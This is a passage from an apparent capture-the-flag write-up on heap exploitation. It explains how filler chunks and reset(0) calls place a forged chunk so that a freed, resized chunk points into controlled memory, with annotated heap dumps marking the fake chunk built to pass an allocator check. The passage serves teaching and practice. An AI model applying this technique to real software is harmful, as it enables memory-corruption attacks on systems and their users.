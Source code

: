 all the chunks that are between chunks C and B are there just so that when A
is resized and freed the pointer &A +0x420 points to area on the heap that we
control(our fake chunk inside chunk C)

you might be also wondering what role do the reset(0) calls play. Well if you
scroll up a bit you will see that the reset function sets the chnk[0] pointer
to 0. So when free is called our chunks that were reset will not be freed.

before:

```  
0x56257ccda3a0: 0x0000000000000000      0x0000000000000071 <--- chunk A  
0x56257ccda3b0: 0x0000000000000000      0x000056257ccda010  
0x56257ccda3c0: 0x4141414141414141      0x4141414141414141  
0x56257ccda3d0: 0x0000000000000000      0x0000000000000000  
0x56257ccda3e0: 0x0000000000000000      0x0000000000000000  
0x56257ccda3f0: 0x0000000000000000      0x0000000000000000  
0x56257ccda400: 0x0000000000000000      0x0000000000000000  
0x56257ccda410: 0x0000000000000000      0x0000000000000211 <--- chunk B  
0x56257ccda420: 0x4242424242424242      0x4242424242424242  
0x56257ccda430: 0x4242424242424242      0x4242424242424242  
0x56257ccda440: 0x0000000000000000      0x0000000000000000  
0x56257ccda450: 0x0000000000000000      0x0000000000000000  
0x56257ccda460: 0x0000000000000000      0x0000000000000000  
0x56257ccda470: 0x0000000000000000      0x0000000000000000  
0x56257ccda480: 0x0000000000000000      0x0000000000000000  
0x56257ccda490: 0x0000000000000000      0x0000000000000000  
0x56257ccda4a0: 0x0000000000000000      0x0000000000000000  
```

```  
0x56257ccda620: 0x0000000000000000      0x0000000000000081  
0x56257ccda630: 0x4343434343434343      0x4343434343434343  
0x56257ccda640: 0x4343434343434343      0x4343434343434343  
0x56257ccda650: 0x4343434343434343      0x4343434343434343  
0x56257ccda660: 0x4343434343434343      0x4343434343434343  
0x56257ccda670: 0x4343434343434343      0x4343434343434343  
0x56257ccda680: 0x4343434343434343      0x4343434343434343  
0x56257ccda690: 0x4343434343434343      0x4343434343434343  
0x56257ccda6a0: 0x0000000000000000      0x0000000000000081  
0x56257ccda6b0: 0x4343434343434343      0x4343434343434343  
0x56257ccda6c0: 0x4343434343434343      0x4343434343434343  
0x56257ccda6d0: 0x4343434343434343      0x4343434343434343  
0x56257ccda6e0: 0x4343434343434343      0x4343434343434343  
0x56257ccda6f0: 0x4343434343434343      0x4343434343434343  
0x56257ccda700: 0x4343434343434343      0x4343434343434343  
0x56257ccda710: 0x4343434343434343      0x4343434343434343  
0x56257ccda720: 0x0000000000000000      0x0000000000000081  
0x56257ccda730: 0x4747474747474747      0x4747474747474747  
0x56257ccda740: 0x4747474747474747      0x4747474747474747  
0x56257ccda750: 0x4747474747474747      0x4747474747474747  
0x56257ccda760: 0x4747474747474747      0x4747474747474747  
0x56257ccda770: 0x4747474747474747      0x4747474747474747  
0x56257ccda780: 0x4747474747474747      0x4747474747474747  
0x56257ccda790: 0x4747474747474747      0x4747474747474747  
0x56257ccda7a0: 0x0000000000000000      0x0000000000000081  
0x56257ccda7b0: 0x5252525252525252      0x5252525252525252  
0x56257ccda7c0: 0x0000000000000420      0x0000000000000061 <--- fake chunk to
pass the check  
0x56257ccda7d0: 0x0000000000000000      0x0000000000000000  
0x56257ccda7e0: 0x0000000000000000      0x0000000000000000  
0x56257ccda7f0: 0x0000000000000000      0x0000000000000000  
0x56257ccda800: 0x0000000000000000      0x0000000000000000  
0x56257ccda810: 0x0000000000000000      0x0000000000000000  
0x56257ccda820: 0x0000000000000000      0x00000000000207e1 <--- top chunk  
```
